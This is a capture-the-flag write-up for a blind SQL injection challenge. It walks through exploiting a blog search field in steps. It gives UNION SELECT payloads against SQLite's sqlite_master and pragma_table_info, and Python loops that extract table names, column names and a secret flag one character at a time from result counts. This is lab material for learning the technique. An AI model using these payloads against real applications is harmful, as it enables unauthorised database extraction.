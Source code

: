 # Challenge `Sometimes we are just temporarily blind` Writeup

- Vulnerability:
  - SQL Injection attack
- Where:
  - Search blog posts text field
- Impact:
  - allows users to find a hidden secret in the database

## Steps to reproduce

### Step 0: Analyzing the server
The search query in the search field remains the same as the last challenge: `SELECT id, title, content FROM blog_post WHERE title LIKE '%%'%' OR content LIKE '%%'%'` (by inputting `%'`). However, this time the only feedback we get from the server is the number of articles matching the search query.

### Step 1: Finding existing tables
Since we don't where the secret is we must start by finding which tables exist in the database.
By using the search feedback it is possible to create a query to find the name of the existing tables letter by letter.
`q' UNION SELECT tbl_name, type, NULL FROM 'sqlite_master' WHERE type='table' AND substr(tbl_name,1,{i}) == '{match}'; --`, the fields `{i}` and `{match}` are used to iterate over the table name.
The `substr` function allows the query to be case sensitive.

First we start by finding the first letters of the table names to easy the search afterwards.
```python
results = []
    
# All possible characters
a = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ" + '{' + '}' + '_' + ':' + ' '

# Find initial letters of results to easy the search afterwards
for l in a:
    r = session.get(URL + payload(l, 1))
    n = r.text.split("Found ")[1].split(" ")[0]
    if n != "0":
        results.append(l)
```

Once we have all the first letters of the table names we can find the full name of the tables.
```python
# Find the rest of the letters of the results
while len(results) != 0:
    for el in results:
        for l in a:
            r = session.get(URL + payload(el + l, len(l + el)))
            n = r.text.split("Found ")[1].split(" ")[0]
            if n != "0":
                results.append(el + l)
        results.remove(el)
                
    print(results)
```

By printing the results we can see that the table `super_s_sof_secrets` exists.

### Step 2: Finding existing columns of the table `super_s_sof_secrets`
After we know the name of the table we can find the name of the columns. To do so we use the `pragma_table_info` which can be used to query information about a specific table. The result set will contain one row for each column in the table. The query used is `q' UNION SELECT name, NULL, NULL FROM pragma_table_info('super_s_sof_secrets') WHERE substr(name,1,{i}) == '{match}'; --` and we repeat the steps above in order to find the name of the columns.
By printing the results we can see that the column `secret` exists.

### Step 3: Finding the flag
Now that we know the name of the table and the column we can find the flag. The query used this time is `q' UNION SELECT secret, NULL, NULL FROM 'super_s_sof_secrets' WHERE substr(secret,1,{i}) == '{match}'; --` and we repeat the steps above in order to find the flag.
By printing the results we can obtain the flag.

## Implementation

The full implementation can be found [here](sometimes-we-are-just-temporarily-blind.py).